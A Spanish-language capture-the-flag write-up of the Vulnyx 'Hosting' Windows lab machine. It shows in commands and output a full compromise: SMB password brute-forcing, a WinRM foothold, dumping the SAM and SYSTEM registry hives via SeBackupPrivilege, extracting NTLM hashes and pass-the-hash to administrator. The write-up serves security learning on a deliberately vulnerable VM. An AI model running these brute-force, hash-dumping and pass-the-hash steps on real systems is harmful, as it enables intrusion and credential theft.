



+++
author = "Andrés Del Cerro"
title = "Vulnyx: Hosting Writeup | Easy"
date = "2025-01-02"
description = ""
tags = [
    "Vulnyx",
    "Controler",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "HTTP Enumeration",
    "Information Disclosure",
    "SMB Bruteforce",
    "Dictionary Attack",
    "Password Spraying",
    "Abusing WinRM",
    "Abusing SeBackupPrivilege",
    "Abusing Backup Operators",
    "Dumping SAM and SYSTEM hive",
    "Pass The Hash"
]

+++

# Vulnyx: Hosting Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Hosting"** on Vulnyx. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a $TARGET --ulimit 5000 -g
192.168.2.10 -> [80,135,139,445,5040,5985,7680,47001,49664,49665,49666,49667,49668,49669,49670]
```

```console
nmap -p80,135,139,445,5040,5985,7680,47001,49664,49665,49666,49667,49668,49669,49670 -sCV $TARGET -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 18:06 CET
Nmap scan report for 192.168.2.10
Host is up (0.00051s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1h00m01s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: HOSTING, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f9:55:fd (Oracle VirtualBox virtual NIC)
| smb2-time:
|   date: 2025-01-02T16:09:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.18 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.2.10 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 18:05 CET
Nmap scan report for 192.168.2.10
Host is up (0.00024s latency).
Not shown: 1498 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
137/udp   open   netbios-ns
41370/udp closed unknown
MAC Address: 08:00:27:F9:55:FD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.86 seconds
```

Del escaneo inicial podemos sacar algunas conclusiones, existe un servicio web, en máquinas Windows no es muy común (depende de la dificultad) ver servicios web, así que es interesante.

Vemos que no se está utilizando Kerberos, por lo cual nos olvidamos de entornos de directorio activo.

Vemos que está expuesto el puerto 5985/TCP que corresponde al protocolo WinRM, por lo cual si tenemos las credenciales de algún usuario que pertenezca al grupo `Remote Management Users` podríamos ganar una consola interactiva utilizando `evil-winrm`

Y además vemos el nombre de NetBIOS `hosting`, lo vamos a añadir al `/etc/hosts` solo por comodidad ya que no es necesario.
# SMB Enumeration (unauthenticated)
No podemos enumerar el servicio SMB con una NULL SESSION.
```console
➜  scan smbmap -H 192.168.2.10 -u '' -p ''

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)
➜  scan smbmap -H 192.168.2.10 -u '' -p ''
➜  scan smbclient -L 192.168.2.10 -U '' -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

# HTTP Enumeration
`whatweb` no nos reporta nada interesante del servicio web.
```console
whatweb http://192.168.2.10
http://192.168.2.10 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[192.168.2.10], Microsoft-IIS[10.0], Title[IIS Windows]
```

La raíz del sitio web es la página por defecto de los servidores IIS.


Fuzzeando con `feroxbuster` encontramos un recurso `/speed`
```console
feroxbuster -u http://192.168.2.10/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.10/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       94w     1251c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      359l     2112w   178556c http://192.168.2.10/iisstart.png
200      GET       32l       54w      696c http://192.168.2.10/
301      GET        2l       10w      160c http://192.168.2.10/speed => http://192.168.2.10/speed/
```

Aquí vemos algo mas de contenido, aunque todo es muy estático.


En un apartado del sitio web encontramos algunos usuarios y un dominio `hosting.nyx`, lo vamos a añadir al `/etc/hosts` y vamos a hacer una lista de usuarios con los que acabamos de encontrar.


Esta es la lista de usuarios.
```console
cat -p users.txt
p.smith
a.krist
m.faeny
k.lendy
```

Si se utilizase kerberos podríamos comprobar que usuarios son válidos a nivel de dominio, pero bueno...

# SMB Bruteforce
Fuzzeando por subdominios y por extensiones de ficheros no encontré nada, así que podemos probar la fuerza bruta (o ataques por diccionario).

Podemos hacer esto con `netexec`, primero vamos a probar la propia lista de usuario como contraseña y no conseguimos nada.
```console
nxc smb 192.168.2.10 -u users.txt -p users.txt
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:p.smith STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:p.smith STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:p.smith STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:p.smith STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:a.krist STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:a.krist STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:a.krist STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:a.krist STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:m.faeny STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:k.lendy STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:k.lendy STATUS_LOGON_FAILURE
```

A la desesperada probé la lista de `rockyou.txt` y tuve suerte.
```console
nxc smb 192.168.2.10 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:booboo STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
```

Teniendo este combo, podemos listar los recursos compartidos a nivel de red pero no vemos nada.
```console
nxc smb 192.168.2.10 -u p.smith -p kissme --shares
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
SMB         192.168.2.10    445    HOSTING          [*] Enumerated shares
SMB         192.168.2.10    445    HOSTING          Share           Permissions     Remark
SMB         192.168.2.10    445    HOSTING          -----           -----------     ------
SMB         192.168.2.10    445    HOSTING          ADMIN$                          Admin remota
SMB         192.168.2.10    445    HOSTING          C$                              Recurso predeterminado
SMB         192.168.2.10    445    HOSTING          IPC$            READ            IPC remota
```

Enumerando los usuarios vemos algo extraño, en el usuario `m.davis` vemos una descripción que tiene pinta de ser una credencial.
```console
nxc smb 192.168.2.10 -u p.smith -p kissme --users
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\p.smith:kissme
SMB         192.168.2.10    445    HOSTING          [*] Enumerated 9 local users: HOSTING
SMB         192.168.2.10    445    HOSTING          -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         192.168.2.10    445    HOSTING          Administrador                 2024-09-02 16:24:30 0
SMB         192.168.2.10    445    HOSTING          administrator                 2024-09-02 17:17:47 0
SMB         192.168.2.10    445    HOSTING          DefaultAccount                2024-09-02 16:24:40 0
SMB         192.168.2.10    445    HOSTING          f.miller                      2024-09-02 16:28:55 0
SMB         192.168.2.10    445    HOSTING          Invitado                      2024-09-02 16:24:48 0
SMB         192.168.2.10    445    HOSTING          j.wilson                      2024-09-02 16:31:36 0
SMB         192.168.2.10    445    HOSTING          m.davis                       2024-09-02 16:29:54 0       H0$T1nG123!
SMB         192.168.2.10    445    HOSTING          p.smith                       2024-09-02 16:18:30 0
SMB         192.168.2.10    445    HOSTING          WDAGUtilityAccount            <never>             0
```

Y vemos que esta credencial es válida para `j.wilson`
```console
nxc smb 192.168.2.10 -u users.txt -p 'H0$T1nG123!'  --continue-on-success
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\f.miller:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\j.wilson:H0$T1nG123!
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.davis:H0$T1nG123! STATUS_LOGON_FAILURE
```

# Abusing WinRM -> Foothold
Podemos comprobar que este usuario pertenece al grupo de `Remote Management Users` ya que `netexec` nos reporta `Pwn3d!` al comprobar esta credencial en `WinRM`
```console
nxc winrm 192.168.2.10 -u j.wilson -p 'H0$T1nG123!'
WINRM       192.168.2.10    5985   HOSTING          [*] Windows 10 / Server 2019 Build 19041 (name:HOSTING) (domain:HOSTING)
WINRM       192.168.2.10    5985   HOSTING          [+] HOSTING\j.wilson:H0$T1nG123! (Pwn3d!)
```

Así que con `evil-winrm` podemos conseguir una consola como `j.wilson`
```console
evil-winrm -i 192.168.2.10 -u j.wilson -p 'H0$T1nG123!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.wilson\Documents> whoami
hosting\j.wilson
```

Podemos ver la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\j.wilson\Desktop> type user.txt
50e5add3f5cb064...
```

# Privilege Escalation
Vemos que este usuario pertenece al grupo `Backup Operators`
```console
*Evil-WinRM* PS C:\Users\j.wilson\Desktop> whoami /groups

INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                             Tipo           SID          Atributos
=========================================== ============== ============ ========================================================================
Todos                                       Grupo conocido S-1-1-0      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Operadores de copia de seguridad    Alias          S-1-5-32-551 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                            Alias          S-1-5-32-545 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios de administraci¢n remota   Alias          S-1-5-32-580 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\NETWORK                        Grupo conocido S-1-5-2      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados        Grupo conocido S-1-5-11     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                  Grupo conocido S-1-5-15     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Cuenta local                   Grupo conocido S-1-5-113    Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci¢n NTLM             Grupo conocido S-1-5-64-10  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio alto Etiqueta       S-1-16-12288
```

## Abusing SeBackupPrivilege
Esto es interesante ya que a los usuarios de este grupo se le asigna el privilegio `SeBackupPrivilege`
```console
*Evil-WinRM* PS C:\Users\j.wilson\Desktop> whoami /priv

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                         Estado
============================= =================================================== ==========
SeBackupPrivilege             Hacer copias de seguridad de archivos y directorios Habilitada
SeRestorePrivilege            Restaurar archivos y directorios                    Habilitada
SeShutdownPrivilege           Apagar el sistema                                   Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido                    Habilitada
SeUndockPrivilege             Quitar equipo de la estaci¢n de acoplamiento        Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso        Habilitada
SeTimeZonePrivilege           Cambiar la zona horaria                             Habilitada
```

El privilegio **SeBackupPrivilege** en Windows otorga a un usuario o proceso la capacidad de acceder a archivos y directorios, ignorando las configuraciones de seguridad aplicadas a esos objetos. Este permiso suele ser utilizado por programas de respaldo o procesos que necesitan copiar o respaldar archivos a los que normalmente el usuario no tendría acceso.

No obstante, si este privilegio no se gestiona adecuadamente o se concede a usuarios o procesos no autorizados, puede convertirse en una vulnerabilidad de escalada de privilegios. Los actores malintencionados podrían explotar esta debilidad para obtener acceso no autorizado a archivos y datos sensibles del sistema.

En la [máquina DC02](https://pointedsec.github.io/writeups/dc02---hackmyvm/) de HackMyVM explotamos este privilegio pero de una forma remota, en este caso tenemos una consola en la máquina víctima por lo cual es mucho mas fácil escalar privilegios.

Primero me voy a crear un directorio para trabajar comodamente.
```console
*Evil-WinRM* PS C:\windows\temp\work> pwd

Path
----
C:\windows\temp\work
```

Ahora simplemente podemos hacer una copia del archivo SAM que recordemos que contiene todos los usuarios y sus hashes NTLM en entornos de WORKSTATION y podemos copiar el registro `system` que es el que contiene la clave de encriptado del archivo SAM.
```console
*Evil-WinRM* PS C:\windows\temp\work> reg save hklm\sam sam.hive
La operaci¢n se complet¢ correctamente.

*Evil-WinRM* PS C:\windows\temp\work> reg save hklm\system system.hive
La operaci¢n se complet¢ correctamente.

*Evil-WinRM* PS C:\windows\temp\work> dir


    Directorio: C:\windows\temp\work


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          1/2/2025   5:27 PM          57344 sam.hive
-a----          1/2/2025   5:27 PM       11988992 system.hive
```

Ahora con la función `download` interna de `evil-winrm` vamos a descargarnos estos archivos.
```console
*Evil-WinRM* PS C:\windows\temp\work> download sam.hive

Info: Downloading C:\windows\temp\work\sam.hive to sam.hive

Info: Download successful!
*Evil-WinRM* PS C:\windows\temp\work> download system.hive

Info: Downloading C:\windows\temp\work\system.hive to system.hive

Info: Download successful!
```

Ahora podemos con `impacket-secretsdump` para dumpear el archivo SAM y obtener los hashes NTLM de los usuarios del sistema.
```console
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Target system bootKey: 0x827cc782adafc2fd1b7b7a48da1e20ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8afe1e889d0977f8571b3dc0524648aa:::
administrator:1002:aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c:::
p.smith:1003:aad3b435b51404eeaad3b435b51404ee:2cf4020e126a3314482e5e87a3f39508:::
f.miller:1004:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
m.davis:1005:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
j.wilson:1006:aad3b435b51404eeaad3b435b51404ee:a6cf5ad66b08624854e80a8786ad6bac:::
[*] Cleaning up...
```

## Pass The Hash & evil-winrm -> Privilege Escalation
Podemos hacer Pass The Hash y vemos que la cuenta `Administrador` se ha deshabilitado por alguna razón, quiero pensar que ha sido un acto de buena fe del creador de la máquina ya que el nombre de usuario de esta cuenta cambia dependiendo del idioma configurado en Windows, por eso también existe una cuenta llamada `administrator`, para hacer la máquina algo mas "universal".
```console
nxc smb 192.168.2.10 -u Administrador -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\Administrador:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
```

Pero podemos ver que al hacer Pass The Hash para la cuenta `administrator` `netexec` nos reporta `Pwn3d!` por lo cual, es una cuenta que pertenece al grupo de Administradores del Sistema.
```console
nxc smb 192.168.2.10 -u Administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\Administrator:41186fb28e283ff758bb3dbeb6fb4a5c (Pwn3d!)
```

Entonces podemos conseguir una consola como `administrator` haciendo Pass The Hash con `evil-winrm`
```console
evil-winrm -i 192.168.2.10 -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents> whoami
hosting\administrator
```

Podemos ver la flag de `root`
```console
*Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
9924b42399b3e0...
```

¡Y ya estaría!

Happy Hacking! 🚀